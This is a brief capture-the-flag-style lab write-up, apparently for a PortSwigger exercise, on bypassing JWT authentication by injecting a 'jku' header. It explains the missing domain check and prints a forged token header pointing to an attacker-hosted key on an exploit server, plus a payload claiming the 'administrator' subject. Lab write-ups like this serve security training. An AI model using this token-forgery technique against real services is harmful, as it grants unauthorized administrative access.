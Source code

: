 # Lab: JWT authentication bypass via jku header injection

Description : The server supports the `jku` parameter in the JWT header. However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key.

End Goal : privilage escalation (access admin panel)

creds : `wiener:peter`

Analysis :

- The vulnerability here is the server trusts any domain's and don't even try to use any filters like black list or white list
- it accepts any `url` and then uses it to fetch the keys
- so in order to exploit it we just created our key and hosted it in the exploit server
- then we added header in jwt
  - `"jku": "https://exploit-0a2a00ff0457f34781c247cf01820022.exploit-server.net/exploit"`
  - and also note that in the header `"kid": "189d4d98-cbaf-4348-a7fa-8be7f27ed3d5"` must match ur key in ur server as an attacker
  - finally verify ur jwt with ur key

__jwt headers__

>{
>
> "kid": "189d4d98-cbaf-4348-a7fa-8be7f27ed3d5",
>
> "alg": "RS256",
>
> "jku": "<https://exploit-0a2a00ff0457f34781c247cf01820022.exploit-server.net/exploit>"
>}

__jwt payload__
>{
>
> "iss": "portswigger",
>
> "exp": 1726955133,
>
> "sub": "administrator"
>
>}
